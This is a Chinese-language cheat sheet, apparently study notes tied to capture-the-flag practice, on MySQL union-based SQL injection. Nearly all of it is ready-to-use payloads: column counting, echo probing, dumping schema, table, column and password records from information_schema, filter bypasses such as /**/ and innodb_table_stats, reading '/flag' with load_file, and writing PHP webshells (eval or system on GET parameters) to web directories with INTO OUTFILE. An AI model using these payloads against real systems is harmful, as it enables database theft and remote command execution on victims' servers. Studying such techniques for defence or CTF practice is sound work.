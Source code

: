 union注入:
寻找注入点，判断闭合方式，判断列数，进行函数执行回显。


1. 测试当前表的字段数：+url编码为空格
```
id =1 ' order by 1 --+

id =1 ' order by 2 --+
...
id =1 ' order by 5 --+  //若到5报错，则此表有4个字段
```
如果不能使用orderby，则可以使用groupby来进行判断列数。
<https://blog.csdn.net/qq_37232329/article/details/122586495>


2. 测试回显了的字段：
```
id = -1 ' union select 1,2,3,4 --+

id = -1 union select 1,2,3,4
id = -1 union/**/select 1,2,3,4
前报错，后替换回显1,2,3,4
```
3. 回显信息收集
拿到表所在库名，登录用户名，操作系统等。
```
所有库名
select(group_concat(schema_name))from(information_schema.schemata)
所在库名
database()
```

4. 根据库名回显库中表名：
```
union select 1,2,GROUP_CONCAT(table_name),4 from
information_schema.tables
WHERE table_schema='库名'

union select 1,2,3,GROUP_CONCAT(table_name) from
information_schema.tables
WHERE table_schema=database()

group_concat(table_name) from information_schema.tables where table_schema=database()%23
```

5. 根据表名回显表的字段：
```
select 1,2,3,GROUP_CONCAT(column_name) from information_schema.columns 
WHERE table_name='表名'
```

6. 根据表名，字段，回显纪录：
```
select 1,2,3,group_concat(name,passwd,字段) from 表名
```

^
## **绕过**
空格被过滤
空格过滤可以利用/**/代替空格。

注释符被过滤
将后面的单引|号闭合即可。

or 被过滤，orderby、information_schema都不能用。
查表名使用 select group_concat(table_name),2,3,4 from mysql.innodb_table_stats where database_name=database()

如果information_schema被禁止，通过sys.schema获取当前数据库表名

通过无列名注入获取表group_concat(某一字段所有值)。
```
SELECT group_concat(`1`) from (select 1,2 union SELECT * from dept) as t
这里需要多试几次dept表有几个字段。
如两个字段：
SELECT group_concat(b) from (select 1 as a,2 as b union SELECT * from dept) as t
```
ctf：
<https://www.cnblogs.com/hello-there/p/12918265.html>


^
## **联合注入写shell**
```
union select 1,substr((select load_file('/flag')),1,255)


联合注入前报错后写webshell文件：
写入文件路径为相对路径时，默认写入到数据库所在文件夹中
1111111'union select 1,2,"<?php @eval($_GET['string'])?>" into outfile "1.php" --+
也可以写成绝对路径，此处为Windows的路径
1111111'union select 1,2,"<?php @eval($_GET['1'])?>" into outfile "/var/www/html/1.php" --+
1111111'union select 1,2,"<?php system($_GET['cmd'])?>" into outfile "D:\\web_security\\1.php" --+
相对路径的写法
-14' union select 1,2,"<?php system($_GET['cmd'])?>" into outfile "../../www/sqli/Less-1/2.php" --+
```